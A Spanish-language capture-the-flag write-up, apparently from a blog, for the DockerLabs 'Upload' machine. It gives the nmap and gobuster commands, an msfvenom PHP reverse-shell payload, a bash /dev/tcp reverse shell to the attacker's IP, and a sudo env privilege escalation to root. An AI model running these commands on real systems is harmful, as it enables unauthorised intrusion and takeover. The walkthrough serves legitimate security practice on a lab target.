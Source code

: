 ```yaml
---
layout: single
title: Upload - DockerLabs
excerpt: "Maquina Linux vulnerada mediante una reverse shell subieno un archivo al servidor"
date: 2024-05-18
classes: wide
header:
  teaser: https://pentest4noob.github.io/Writetups/assets/images/logos/logo_dockerlabs.png
  teaser_home_page: true
categories:
  - DockerLabs
tags:
  - linux
  - Muy facil
  - Reverse Shell
  - Sudo
---
```


<p align="center">
  <img width="250" height="250" src="https://pentest4noob.github.io/Writetups/assets/images/logos/logo_dockerlabs.png">
</p>

Esta maquina está clasificada como "Muy Facil" en la plataforma de [DockerLabs](https://dockerlabs.es/#/), muy útil para practicar reverse shell y escalar privilegios mediante el uso de binarios

# 1- Enumeración

Comenzamos con la etapa de enumeración para ello vamos a usar la herramienta nmap con los siguientes parámetros

```bash
sudo nmap -p- --open -sS -sC -sV -n -Pn 172.17.0.2 -oN nmap.txt
```

| Parametro | Descripción                        |
| --------- | ---------------------------------- |
| -p-       | Escanear todos los puertos         |
| --open    | Mostrar los puertos abiertos       |
| -sS       | Sondeo de tipo SYN sigiloso        |
| -sV       | Habilita la detección de versiones |
| -n        | Sin resolución de DNS              |
| -Pn       | Omitir el descubrimiento de hosts  |
| -oN       | Formato de salida del archivo      |

Finalizado el escaneo podemos ver que solo está abierto el puerto 80, con esto sabemos que corre el servicio Apache en dicho puerto

```css
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-12 13:37 -03
Nmap scan report for 172.17.0.2
Host is up (0.000011s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Upload here your file
|_http-server-header: Apache/2.4.52 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.49 seconds
```

Procedemos a investigar en el navegador colocando la siguiente url `http://172.17.0.2`

![url](https://pentest4noob.github.io/Writetups/assets/images/writetup/upload/001Upload.png)

Se puede observar que es una pagina para subir archivos, por lo tanto se intuye que el vector de ataque podría ser mediante una reverse shell en php, procedo a crear el archivo malicioso con la herramienta msfvenom

```bash
msfvenom -p php/reverse_php LHOST=192.168.0.200 LPORT=8081 -f raw > pwned.php
```

| Parametro | Descripción                                |
| --------- | ------------------------------------------ |
| -p        | tipo de payload                            |
| LHOST     | IP de la maquina atacante                  |
| LPORT     | Puerto a la escucha de la maquina atacante |
| -f        | formato de salida                          |

Procedo a subir el payload, me indica que el archivo se subió correctamente.

![payload](https://pentest4noob.github.io/Writetups/assets/images/writetup/dockerlabs/upload/002Upload.png)

Ahora debo buscar donde se guardó el archivo pwned.php, por lo tanto procedo a realizar un fuzzing web con la herramienta gobuster

```bash
gobuster -n 404 -t 64 dir -u http://172.17.0.2/ -w /usr/share/dirbuster/wordlist/directoyry-list-lowercase-2.3-medium.txt -x txt,py,sh,php,html
```

| Parametro | Descripcion                     |
| --------- | ------------------------------- |
| -n        | No imprimir códigos de estado   |
| -t        | cantidad de hilos en paralelo   |
| -u        | URL                             |
| -w        | Ruta al diccionario             |
| -x        | Extensiones de archivo a buscar |

```css
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 64
[+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,html,txt,py,sh
[+] No status:               true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                [Size: 275]
/.php                 [Size: 275]
/uploads              [Size: 310] [--> http://172.17.0.2/uploads/]
/upload.php           [Size: 1357]
/index.html           [Size: 1361]
/.html                [Size: 275]
/.php                 [Size: 275]
/server-status        [Size: 275]
Progress: 1245858 / 1245864 (100.00%)
===============================================================
Finished
===============================================================
```

Viendo el resultado queda al descubierto el directorio uploads procedo a ingresar la siguiente url `http://172.17.0.2/uploads`

![uploads](https://pentest4noob.github.io/Writetups/assets/images/writetup/dockerlabs/upload/003Upload.png)

Al ingresar se observa el archivo que había subido con anterioridad pwned.php

# 2- Intrusión

procedo a ponerme a la escucha en mi maquina atacante con netcat por el puerto `8081` con dicho puerto configuré el payload anteriormente

```bash
nc -nlvp 8081
```

Ahora doy click en el archivo pwned.php, el navegador se va a quedar como si estuviera cargando es buena señal

![pwned](https://pentest4noob.github.io/Writetups/assets/images/writetup/dockerlabs/upload/004Upload.png)

me fijo en la consola de mi maquina atacante y puedo ver que realizó la conexión con éxito ejecuto el comando `whoami` y me devuelve el usuario `www-data` intrusión realizada!

![www-data](https://pentest4noob.github.io/Writetups/assets/images/writetup/dockerlabs/upload/005Upload.png)

## Nota:

El payload en msfvenom suele ser inestable y luego de un tiempo se cae la conexión por lo tanto es recomendable abrir otra terminal y ponerse a la escucha con un puerto diferente en la maquina donde ya tenemos la intrusión

```bash
nc -nlvp 4443
```

ahora se procede a enviar la reverse shell para eso se debe ir la pagina web [revshell.com](https://www.revshells.com/) y copiar el siguiente comando

```bash
bash -c "sh -i >& /dev/tcp/192.168.0.200/4443 0>&1"
```

con esto se va adquirir una nueva shell mas estable

## Tratamiento de la TTY

Antes de realizar la escalada de privilegios voy hacer el tratamiento de tty para poder estabilizar la shell

```bash
script /dev/null -c bash
```

presionamos ctrl + z

```bash
stty raw -echo; fg
```

luego escribimos

```bash
reset xterm
```

nota: es posible que no muestre en pantalla lo que estamos tecleando

```bash
export TERM=xterm
```

```bash
export SHELL=bash
```

# 3- Escalada de privilegios

Ya con la bash mas estable es momento de escalar privilegios a root para ellos voy a ejecutar el siguiente comando `sudo -l` para listar los permisos de sudo que tiene el usuario actual en el sistema.

![tty](https://pentest4noob.github.io/Writetups/assets/images/writetup/dockerlabs/upload/006Upload.png)

En este caso se observa que se puede ejecutar el binario `/usr/bin/env` como el usuario **root**, sin proporcionar contraseña. Por lo tanto se procede a investigar en la pagina [GTFOBins](https://gtfobins.github.io/) como explotar este binario

![binario](https://pentest4noob.github.io/Writetups/assets/images/writetup/dockerlabs/upload/007Upload.png)

ejecutamos el comando

```bash
sudo env /bin/sh
```

Listo! se logró escalar privilegios al usuario root

![root](https://pentest4noob.github.io/Writetups/assets/images/writetup/dockerlabs/upload/008Upload.png)
